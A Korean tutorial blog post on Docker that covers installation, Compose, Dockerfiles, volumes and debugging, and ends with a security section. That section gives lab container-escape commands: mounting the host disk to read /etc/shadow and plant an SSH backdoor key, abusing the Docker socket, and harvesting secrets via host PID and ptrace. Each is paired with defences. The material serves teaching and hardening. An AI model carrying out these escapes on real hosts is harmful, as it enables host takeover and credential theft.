

---
layout: post
title: "Docker"
date: 2025-11-24 17:00:00 +0900
categories: [container]
---

## 1. 개요

**Docker**는 애플리케이션을 컨테이너라는 격리된 환경으로 패키징하고 배포하는 플랫폼이다.
운영체제 수준의 가상화를 통해 기존의 가상 머신(VM)보다 훨씬 가볍고 빠르며, "Build Once, Run Anywhere"를 실현하여 개발 환경과 운영 환경의 불일치 문제를 해결해 준다.

### VM vs Container

| 구분 | 가상 머신 (VM) | 도커 컨테이너 (Container) |
|------|----------------|---------------------------|
| **가상화 방식** | 하드웨어 가상화 (Hypervisor) | 운영체제 가상화 (Container Engine) |
| **Guest OS** | 설치 필요 (무거움) | Host OS 공유 (가벼움) |
| **부팅 속도** | 분 단위 | 초 단위 |
| **격리 수준** | 완전한 격리 (높음) | 프로세스 수준 격리 |

### 동작 흐름
Dockerfile을 작성하여 이미지를 빌드하고, 이를 레지스트리에 저장한 뒤 어디서든 내려받아 실행할 수 있다.



---

## 2. 설치 및 기본 사용법

Rocky Linux / CentOS 환경에서 도커를 설치하고 기본적인 라이프사이클을 관리한다.

### 설치 (CentOS/Rocky)
```bash
# 저장소 추가
dnf config-manager --add-repo https://download.docker.com/linux/centos/docker-ce.repo

# 설치 및 실행
dnf install -y docker-ce docker-ce-cli containerd.io
systemctl enable --now docker
```

### 필수 명령어
```bash
# 이미지 검색 및 다운로드
docker search nginx
docker pull nginx

# 컨테이너 실행 (백그라운드, 포트포워딩)
docker run -d -p 8080:80 --name my-web nginx

# 상태 확인
docker ps       # 실행 중인 컨테이너
docker ps -a    # 모든 컨테이너
```

---

## 3. 실습: 멀티 포트 웹 서버 배포

하나의 `httpd` 이미지를 사용하여 서로 다른 포트(60080~60480)를 사용하는 5개의 웹 서버 컨테이너를 구동한다.

### 다중 컨테이너 실행
```bash
# 이미지 준비
docker pull httpd

# 포트를 달리하여 5개 실행
docker run -itd -p 60080:80 --name h1 httpd
docker run -itd -p 60180:80 --name h2 httpd
docker run -itd -p 60280:80 --name h3 httpd
docker run -itd -p 60380:80 --name h4 httpd
docker run -itd -p 60480:80 --name h5 httpd
```

### 접속 테스트
Host IP가 `10.0.0.11`이라면 브라우저에서 `http://10.0.0.11:60080` 등으로 접속하여 확인한다.

### IP 확인
```bash
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' h1
```

---

## 5. Docker Compose

여러 컨테이너를 하나의 YAML 파일로 정의하고 동시에 관리할 수 있다.

### 설치
```bash
# Docker Compose V2 (Plugin 방식)
dnf install -y docker-compose-plugin

# 버전 확인
docker compose version
```

### 기본 사용법

**docker-compose.yml 예시 (WordPress + MySQL)**
```yaml
version: '3.8'

services:
  wordpress:
    image: wordpress:latest
    ports:
      - "8080:80"
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: wp_user
      WORDPRESS_DB_PASSWORD: wp_pass
      WORDPRESS_DB_NAME: wordpress
    depends_on:
      - db
    volumes:
      - wp_data:/var/www/html

  db:
    image: mysql:8.0
    environment:
      MYSQL_ROOT_PASSWORD: root_pass
      MYSQL_DATABASE: wordpress
      MYSQL_USER: wp_user
      MYSQL_PASSWORD: wp_pass
    volumes:
      - db_data:/var/lib/mysql

volumes:
  wp_data:
  db_data:
```

**Compose 명령어**
```bash
# 백그라운드 실행
docker compose up -d

# 상태 확인
docker compose ps

# 로그 확인
docker compose logs -f wordpress

# 중지 및 삭제
docker compose down

# 볼륨까지 삭제
docker compose down -v
```

---

## 6. Dockerfile 작성 및 멀티스테이지 빌드

### 기본 Dockerfile
```dockerfile
# 기본 이미지 지정
FROM nginx:alpine

# 메타데이터
LABEL maintainer="admin@example.com"

# 파일 복사
COPY ./html /usr/share/nginx/html

# 포트 노출 (문서화 목적)
EXPOSE 80

# 실행 명령
CMD ["nginx", "-g", "daemon off;"]
```

### 멀티스테이지 빌드 (이미지 최적화)
빌드 환경과 실행 환경을 분리하여 최종 이미지 크기를 대폭 줄인다.

```dockerfile
# Stage 1: 빌드 환경
FROM golang:1.21 AS builder
WORKDIR /app
COPY . .
RUN go build -o myapp

# Stage 2: 실행 환경 (경량 이미지)
FROM alpine:latest
WORKDIR /app
COPY --from=builder /app/myapp .
EXPOSE 8080
CMD ["./myapp"]
```

**효과**: `golang:1.21` (1GB+) → `alpine` 기반 (수십 MB)

### 이미지 빌드 및 푸시
```bash
# 빌드
docker build -t myapp:v1 .

# 태그 지정 (레지스트리용)
docker tag myapp:v1 registry.example.com/myapp:v1

# 레지스트리 푸시
docker push registry.example.com/myapp:v1
```

---

## 7. Volume 및 데이터 관리

### Volume vs Bind Mount

| 구분 | Volume | Bind Mount |
|------|--------|------------|
| **관리** | Docker가 관리 | 호스트 경로 직접 지정 |
| **위치** | `/var/lib/docker/volumes/` | 호스트 임의 경로 |
| **용도** | 데이터 영속성, 컨테이너 간 공유 | 개발 시 소스 코드 마운트 |
| **백업** | `docker volume` 명령 | 호스트에서 직접 |

### Volume 사용
```bash
# Volume 생성
docker volume create my_data

# Volume 마운트하여 실행
docker run -d -v my_data:/var/lib/mysql --name db mysql

# Volume 목록 확인
docker volume ls

# Volume 상세 정보
docker volume inspect my_data

# 사용하지 않는 Volume 정리
docker volume prune
```

### Bind Mount 사용 (개발 환경)
```bash
# 현재 디렉토리를 컨테이너에 마운트 (실시간 반영)
docker run -d -v $(pwd)/src:/app/src -p 3000:3000 --name dev node-app

# Windows PowerShell
docker run -d -v ${PWD}/src:/app/src -p 3000:3000 --name dev node-app
```

---

## 8. 로그 관리 및 디버깅

### 로그 확인
```bash
# 전체 로그
docker logs my-container

# 실시간 로그 (-f: follow)
docker logs -f my-container

# 최근 100줄만
docker logs --tail 100 my-container

# 타임스탬프 포함
docker logs -t my-container
```

### 컨테이너 내부 접속
```bash
# 실행 중인 컨테이너에 쉘 접속
docker exec -it my-container /bin/bash

# 또는 sh (alpine 등)
docker exec -it my-container /bin/sh

# 특정 명령만 실행
docker exec my-container cat /etc/hosts
```

### 트러블슈팅 명령어
```bash
# 컨테이너 상세 정보 (네트워크, 볼륨 등)
docker inspect my-container

# 컨테이너 이벤트 스트림
docker events

# 이미지 레이어 히스토리
docker history nginx:latest

# 디스크 사용량 확인
docker system df

# 사용하지 않는 리소스 정리
docker system prune -a
```

---

## 9. 심화: 라이프사이클 및 모니터링

컨테이너의 상태를 정교하게 제어하고 리소스 사용량을 모니터링한다.

### 상태 제어 명령어
*   `docker stop`: 컨테이너에게 종료 신호(SIGTERM)를 보낸다. (정상 종료)
*   `docker kill`: 컨테이너를 강제 종료(SIGKILL)한다.
*   `docker pause`: CPU 사용을 중지시키지만 메모리 상주 상태를 유지한다. (IP 유지)

```bash
docker pause h1
docker unpause h1
```

### 리소스 모니터링
```bash
# 실시간 리소스(CPU, 메모리) 사용량 확인
docker stats

# 컨테이너 내부 프로세스 목록 확인
docker top h1

# 컨테이너 파일시스템 변경 사항 확인
docker diff h1
```

---

## 10. 보안 고려사항

도커는 VM보다 약한 프로세스 수준의 격리를 사용하므로, 잘못된 설정은 공격자에게 **컨테이너 탈출(Container Escape)**을 통해 호스트 시스템 전체를 장악할 수 있는 기회를 제공한다.

### 10.1. 공격 시연 (Lab 환경)

#### 공격 1: Privileged Container Escape

`--privileged` 플래그가 설정된 컨테이너에서 호스트 파일시스템을 마운트하여 `/etc/shadow`를 탈취하는 시나리오이다.

**[취약한 환경 구성]**
```bash
# 관리자가 편의상 privileged 모드로 컨테이너 실행 (잘못된 관행)
docker run --privileged -it alpine sh
```

**[공격 과정]**
```bash
# 1. 호스트의 디스크 장치 확인
fdisk -l
# 출력 예: /dev/sda1  *      2048  209715199  ...

# 2. 호스트 루트 파티션 마운트
mkdir /hostfs
mount /dev/sda1 /hostfs

# 3. 민감 정보 탈취
cat /hostfs/etc/shadow
# root:$6$xyz....:19000:0:99999:7:::

# 4. SSH 키 삽입 (백도어)
echo "ssh-rsa AAAA... attacker@evil" >> /hostfs/root/.ssh/authorized_keys

# 5. 호스트에 직접 SSH 접속 가능
```

**[공격 결과]**: 컨테이너 → 호스트 루트 권한 획득 🔓

---

#### 공격 2: Docker Socket Abuse (API 탈취)

개발 편의를 위해 Docker 소켓을 마운트한 컨테이너에서 새로운 Privileged 컨테이너를 생성하여 호스트를 장악하는 시나리오이다.

**[취약한 환경 구성]**
```bash
# CI/CD 에이전트 등에서 Docker 명령을 쓰기 위해 소켓 마운트 (잘못된 관행)
docker run -v /var/run/docker.sock:/var/run/docker.sock -it docker:dind sh
```

**[공격 과정]**
```bash
# 1. 컨테이너 내부에서 호스트의 Docker 데몬에 접근 가능
docker ps  # 호스트의 모든 컨테이너 보임

# 2. 새로운 Privileged 컨테이너 생성 + 호스트 루트 마운트
docker run --privileged -v /:/hostfs -it alpine sh

# 3. chroot로 호스트 완전 장악
chroot /hostfs
whoami  # root
cat /etc/shadow
```

**[공격 결과]**: 소켓 접근 → 무제한 Docker 명령 → 호스트 루트 🔓

---

#### 공격 3: Host PID Namespace Escape

`--pid=host`로 실행된 컨테이너에서 호스트의 모든 프로세스에 접근하여 메모리를 덤프하거나 조작하는 시나리오이다.

**[취약한 환경 구성]**
```bash
# 디버깅 목적으로 호스트 PID 네임스페이스 공유 (위험)
docker run --pid=host -it alpine sh
```

**[공격 과정]**
```bash
# 1. 호스트의 모든 프로세스 보기
ps aux
# PID 1 = 호스트의 init/systemd

# 2. 호스트 프로세스의 메모리 접근 시도 (SYS_PTRACE 필요)
# /proc/{PID}/mem, /proc/{PID}/environ 등

# 3. 환경 변수에서 비밀 정보 탈취 (DB 비밀번호 등)
cat /proc/1/environ | tr '\0' '\n' | grep -i password
```

**[공격 결과]**: 다른 프로세스 메모리/환경변수 노출 🔓

---

#### 공격 4: Capabilities 악용 (SYS_PTRACE)

`SYS_PTRACE` Capability가 부여된 컨테이너에서 다른 컨테이너의 프로세스를 디버깅하고 코드를 인젝션하는 시나리오이다.

**[취약한 환경 구성]**
```bash
docker run --cap-add=SYS_PTRACE --pid=container:<target_container_id> -it alpine sh
```

**[공격 과정]**
```bash
# 1. 대상 컨테이너의 프로세스 확인
ps aux

# 2. gdb 등으로 프로세스 attach
apk add gdb
gdb -p <target_pid>

# 3. 메모리 조작/쉘코드 인젝션
(gdb) call system("/bin/sh")
```

**[공격 결과]**: 다른 컨테이너 프로세스 제어 🔓

---

### 10.2. 방어 대책

위 공격들을 방어하기 위한 보안 설정이다. **각 공격에 대응하는 방어책을 1:1로 매핑**한다.

| 공격 | 방어 |
|:---|:---|
| Privileged Escape | 방어 1, 2 |
| Docker Socket Abuse | 방어 3 |
| Host PID Escape | 방어 4 |
| Capabilities 악용 | 방어 2 |

---

#### 방어 1: Privileged 모드 금지 및 Capabilities 제한

`--privileged` 옵션 사용을 절대 금지하고, 최소 권한 원칙을 적용한다.

```bash
# 안전한 실행 예시: 모든 Capabilities 제거 + 권한 상승 차단 + 읽기 전용 파일시스템
docker run --read-only --cap-drop=ALL --security-opt=no-new-privileges -it alpine sh
```

---

#### 방어 2: 비루트 사용자 실행

컨테이너 내부에서 루트(root)로 실행하면 탈출 시 호스트에서도 루트 권한을 얻을 가능성이 높아진다.

```dockerfile
# Dockerfile에서 비루트 사용자 설정
FROM nginx:alpine
RUN addgroup -S appgroup && adduser -S appuser -G appgroup
USER appuser
```

```bash
# 또는 실행 시 UID/GID 지정
docker run --user 1000:1000 nginx
```

---

#### 방어 3: Docker Socket 비노출

컨테이너에 `/var/run/docker.sock`을 절대 마운트하지 않는다. CI/CD에서 필요하다면 **Rootless Docker**나 **Kaniko** 같은 대안을 사용한다.

```bash
# 잘못된 예 (사용 금지)
# docker run -v /var/run/docker.sock:/var/run/docker.sock ...

# 대안: Rootless Docker 설치 (루트 권한 없이 Docker 실행)
dockerd-rootless-setuptool.sh install
```

---

#### 방어 4: Host Namespace 공유 금지

`--pid=host`, `--network=host`, `--ipc=host` 등 호스트 네임스페이스를 공유하는 옵션 사용을 금지한다.

```bash
# 잘못된 예 (사용 금지)
# docker run --pid=host ...
# docker run --network=host ...
```

---

#### 방어 5: 이미지 서명 검증 (Docker Content Trust)

신뢰할 수 없는 이미지를 내려받지 않도록 **DCT(Docker Content Trust)**를 활성화하여 서명된 이미지만 사용한다.

```bash
# DCT 활성화 (Pull/Push 시 서명 검증)
export DOCKER_CONTENT_TRUST=1

# 검증되지 않은 이미지 Pull 시 에러 발생
docker pull malicious/untrusted-image  # Error: trust data unavailable
```

---

#### 방어 6: 네트워크 격리

기본 `bridge` 네트워크 대신 **사용자 정의 네트워크**를 생성하여 컨테이너 간 통신을 격리하고 제어한다.

```bash
# 격리된 네트워크 생성
docker network create --driver bridge isolated_net

# 특정 네트워크에만 연결
docker run -d --network isolated_net --name db mysql
docker run -d --network isolated_net --name app myapp

# 다른 네트워크의 컨테이너와는 통신 불가
```

---

#### 방어 7: Seccomp/AppArmor 프로파일

**Seccomp**는 허용된 시스템 콜만 실행하게 하고, **AppArmor**는 파일/네트워크 접근을 제한한다.

```bash
# 커스텀 Seccomp 프로파일 적용
docker run --security-opt seccomp=/path/to/custom-seccomp.json nginx

# AppArmor 프로파일 적용
docker run --security-opt apparmor=docker-default nginx
```

---

#### 방어 8: 이미지 취약점 스캔

CI/CD 파이프라인에서 **Trivy**, **Snyk**, **Clair** 등의 도구로 이미지 취약점을 빌드 단계에서 스캔한다.

```bash
# Trivy로 이미지 스캔
trivy image nginx:latest

# 취약점이 발견되면 빌드 실패 처리 (CI/CD 연동)
trivy image --exit-code 1 --severity HIGH,CRITICAL myapp:latest
```

> **Tip**: Kubernetes에서는 **Pod Security Standards (Restricted)**를 적용하여 이러한 보안 설정을 클러스터 전체에 강제할 수 있다.

<hr class="short-rule">
